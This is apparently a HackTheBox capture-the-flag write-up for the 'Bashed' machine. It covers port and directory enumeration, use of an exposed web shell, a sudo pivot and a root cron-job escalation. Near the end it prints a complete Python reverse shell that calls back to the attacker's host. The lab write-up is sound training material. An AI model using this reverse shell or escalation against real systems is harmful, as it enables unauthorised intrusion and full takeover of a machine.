




# Bashed - Easy

Target IP: **10.129.74.201**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.74.201 -v```

There's only one TCP port open, port 80 running Apache 2.4.18.

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Let's navigate to it.

We are greeted with this home page.



There is a button we can press that navigates to ```/single.html```, where a GitHub repository is linked. This might be useful, but for now, let's enumerate further.



Directory enumeration gives us back promising results.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8ux0aztadq]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.74.201/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.74.201/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccessFsNosliD       [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 9ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 9ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 6ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 6ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 6ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 6ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 6ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 6ms]
:: Progress: [87651/87651] :: Job [1/1] :: 5555 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

```/dev``` looks the most interesting. Navigating to it, we find that directory listing is enabled, and the exact php script is inside of it.



We can just click on the file to load the script, which is essentially a fully interactive shell on the web. We can just send a connection to our attack box to get a reverse shell, although I'm not even sure if that is necessary.



For some reason, the command doesn't work. I used a python reverse shell instead and got a connection back.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8ux0aztadq]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.74.201 54168
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
```

Checking ```sudo -l```, we find that ```www-data``` can run any command as ```scriptmanager```.

```
www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can just send another reverse shell as ```scriptmanager```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8ux0aztadq]─[~]
└──╼ [★]$ nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.129.74.201 51604
scriptmanager@bashed:/var/www/html/dev$ whoami
whoami
scriptmanager
```

Looking at ```/home```, there is an ```arrexel``` user we are looking to move laterally into.

```
scriptmanager@bashed:~$ ls /home
arrexel  scriptmanager
```

There's an unusual ```/scripts``` directory.

```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct  3 17:47 test.txt
```

The script just creates a file and writes text into it.

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

However, this is unusual because the python script itself is owned by ```scriptmanager```, but the output file is owned by ```root```. Also, seeing that the text file has just freshly been created, this gives me the impression that the script was called from a ```root``` cron job.

To confirm my hypothesis, I waited for a bit then looked at the directory again. Indeed, there was a new ```test.txt``` created two minutes after.

```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct  3 17:51 test.txt
```

In that case, since we have write privileges over ```test.py```, we can just overwrite this script with code that initiates a connection back to us, waiting for the cron job to give us ```root```.

Here is our new script.

```
scriptmanager@bashed:/scripts$ cat test.py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.10.15.194", 4446))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/bash", "-i"])
```

After waiting a bit, we get ```root```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8ux0aztadq]─[~]
└──╼ [★]$ nc -lvnp 4446
Listening on 0.0.0.0 4446
Connection received on 10.129.74.201 55044
bash: cannot set terminal process group (2013): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# whoami
whoami
root
```

We can proceed to get the user flag from here.

## Root Flag

We can also get the root flag. Two birds with one stone.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
